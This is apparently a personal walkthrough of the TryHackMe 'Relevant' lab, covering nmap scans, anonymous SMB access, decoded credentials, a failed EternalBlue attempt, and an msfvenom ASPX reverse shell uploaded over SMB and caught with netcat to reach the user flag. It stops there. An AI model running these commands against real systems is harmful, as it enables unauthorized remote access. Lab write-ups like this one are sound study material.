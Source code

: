 ## Relevant
---
THM Relevant Room Walkthrough: https://tryhackme.com/room/relevant

## Summary
---
- nmap
- smb share open --> nt4wrksv
- passwords.txt
- port 49663 open --> subdomain /nt4wrksv accessible
- smb allows for upload and download of files (get/put) --> can upload a reverse shell and then access through browser
- catch reverse shell --> user flag
- 
## Walkthrough
---
Let's first begin by enumerating the machine with nmap. We will run nmap with

```bash
nmap -sS -sV -sC -Pn  <TARGET_IP>
```

![](attachments/Screenshot%202025-02-01%20160003.png)

We can see we have 5 open ports. It's good to keep in mind we only scanned the default number of ports with nmap, which by default should be the 1000 most popular ports.

The 3 most interesting ports we have here are 80, 445, and 3389. (Webserver, SMB shares, RDP access)

Let's start by looking into these. The webserver seems to host this page: 

![](attachments/Screenshot%202025-02-01%20160429.png)

The first thing I think of when I see this and port 445 open is a possible EternalBlue exploit depending on the version of Windows Server.

The only other thing on this website is a link to https://www.iis.net/?utm_medium=iis-deployment with no other interesting information. There may also be something hidden in the image, but let's not get too deep.

Let's check the SMB port, 445. We will use smbclient with the command

```bash
smbclient -L //10.10.71.74
```

We see we have some shares available. We have 3 hidden shares indicated by the $ and then a regular share. 

![](attachments/Screenshot%202025-02-01%20161102.png)

Let's try to connect to them anonymously without passing a -U (User) param.

![](attachments/Screenshot%202025-02-01%20161728.png)

I was able to connect to the IPC share and the last share. I would not expect to find anything in the IPC share because it's used for Inter-Process Communication and not file storage. What's interesting is we were able to see that the last share nt4wrksv actually has a file in it. Let's download it and check it out.

![](attachments/Screenshot%202025-02-01%20162800.png)

We see that we have some encoded passwords. It looked like Base64 was used to encode them so let's decode them to see if we have anything here.

![](attachments/Screenshot%202025-02-01%20163104.png)

We get a username and some passwords! 

```bash
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123 
```

The only place I can think to use them is RDP since that port is also open. Let's try. 

RDP does not seem to work with either password and just fails or freezes.

![](attachments/Pasted%20image%2020250201170439.png)

At this point I was feeling a bit stuck. Let's maybe try to enum the subdirectories and then let's look at SMB again. Maybe we can exploit something there. 

Running Gobuster gives us nothing interesting in terms of directories and takes very long. I used directory-list-2.3-medium.txt

At this point, the machine became unresponsive which was common in this lab and I had to restart it. I ran MS17-010 SMB RCE Detection to see if maybe the system is vulnerable to EternalBlue. The result told me that the host is likely vulnerable to it, so I tried running EternalBlue.

![](attachments/Pasted%20image%2020250201172528.png)

Running EternalBlue did not actually work and it once again froze the system. 

Once again, feeling stuck the only thing I can think of is to nmap all the ports instead of just the 1000 most popular ports. This also takes very long.

![](attachments/Pasted%20image%2020250201174152.png)

Interesting find. We have 3 extra ports that we missed. We have a webserver at 49663. Let's see what we can find if we go to it in a browser.

Weird. It takes us to the same page. Let's just try to check the other ports as well. I would not expect to find anything since they are RPC ports according to nmap.

![](attachments/Pasted%20image%2020250201192451.png)

As expected the other 2 ports don't resolve.

The image takes us to the same link as the last image and other than the port, it looks identical to the page on port 80. Let's maybe try to enumerate subdirectories of this domain with the new port.

This took extremely long. I think there is something wrong with the box. It freezes extremely easily and only responds when rebooted. Good news is we found a subdirectory that is the same as our SMB share /nt4wrksv. When we visit it we get an empty page. I would normally enumerate this subdirectory again but since this is the same name as our SMB share maybe it's accessing the same directory. Let's see if we can access the passwords.txt file from browser. We can! This means if we can upload files we should also be able to access them through here, which means we can possibly get a rev shell. Let's generate and upload a rev shell.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.21.101.68 LPORT=4444 -f aspx -o rev.aspx
```

Generated a rev shell with MSFVenom. We know it's a windows server using IIS, we should maybe be able to use aspx, asp, or php. Let's try aspx first. Uploading this with the smbclient and accessing this through the web server. Also setting up an nc listener on port 444.

```bash
smbclient //10.10.219.157/nt4wrksv
put rev.aspx
exit

nc -lvp 4444
```

Accessing the webserver with the rev shell takes a second, but we are in!

![](attachments/Pasted%20image%2020250201195449.png)
 
 Navigating to the Users directory and then Bob>Desktop gives us our first flag!

![](attachments/Pasted%20image%2020250201195710.png)